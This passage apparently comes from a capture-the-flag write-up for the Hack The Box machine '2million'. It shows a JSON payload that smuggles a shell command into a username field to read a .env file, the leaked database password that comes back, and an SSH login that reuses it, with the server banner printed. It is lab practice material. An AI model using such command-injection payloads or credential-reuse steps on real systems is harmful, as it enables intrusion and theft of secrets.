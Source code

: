 Payload:
```
{
    "email": "",
    "username":"; echo `cat .env` ; "
}
```

Result:
```
DB_HOST=127.0.0.1 
DB_DATABASE=htb_prod 
DB_USERNAME=admin 
DB_PASSWORD=SuperDuperPass123
```

Try SSH access as `admin@10.10.11.221:SuperDuperPass123`.

```
$ ssh admin@10.10.11.221
The authenticity of host '10.10.11.221 (10.10.11.221)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.221' (ED25519) to the list of known hosts.
admin@10.10.11.221's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 20 09:39:02 PM UTC 2025

  System load:  0.0               Processes:             225
  Usage of /:   82.6% of 4.82GB   Users logged in:       1
  Memory usage: 9%                IPv4 address for eth0: 10.10.11.221
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
Last login: Thu Mar 20 20:11:46 2025 from 10.10.14.174
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ ls -lah
total 32K
drwxr-xr-x 4 admin admin 4.0K Jun  6  2023 .
drwxr-xr-x 3 root  root  4.0K Jun  6  2023 ..
lrwxrwxrwx 1 root  root     9 May 26  2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26  2023 .bash_logout
-rw-r--r-- 1 admin admin 3.7K May 26  2023 .bashrc
```